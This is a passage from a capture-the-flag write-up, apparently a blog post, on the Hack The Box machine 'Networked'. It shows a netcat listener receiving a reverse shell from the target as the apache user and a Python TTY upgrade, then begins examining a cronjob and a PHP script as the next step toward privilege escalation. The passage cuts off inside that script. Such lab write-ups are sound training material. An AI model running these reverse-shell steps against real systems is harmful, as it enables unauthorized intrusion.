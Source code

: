 Back on my listener, I get a shell as user Apache.

{% highlight plaintext %}
root@kali:~/HTB/Networked# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.146] 57646
Linux networked.htb 3.10.0-957.21.3.el7.x86_64 #1 SMP Tue Jun 18 16:35:19 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 02:54:28 up  2:45,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ 
{% endhighlight %}

I upgrade to a Python TTY to make life easier:

{% highlight plaintext %}
sh-4.2$ python -c 'import pty;pty.spawn("/bin/bash")'
{% endhighlight %}

# Analyzing the cronjob

In the user guly's home folder, we find:

* User.txt -- with no permission to read
* check_attack.php -- a script that checks if filenames have been modified and alerts the user guly
* crontab.guly -- a cronjob that executes check_attack.php every 3 minutes. We can assume this is under the context of user guly, given the filename and location.

{% highlight plaintext %}
bash-4.2$ cat crontab.guly
*/3 * * * * php /home/guly/check_attack.php
{% endhighlight %}

Let's see what check_attack.php does (comments mine).

{% highlight php %}
<?php

# Invoking functions from lib.php

require '/var/www/html/lib.php';

# Setting up variables, including fields for an e-mail

$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

# Below will scan all files in /var/www/html/uploads and place them in the $files array.

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
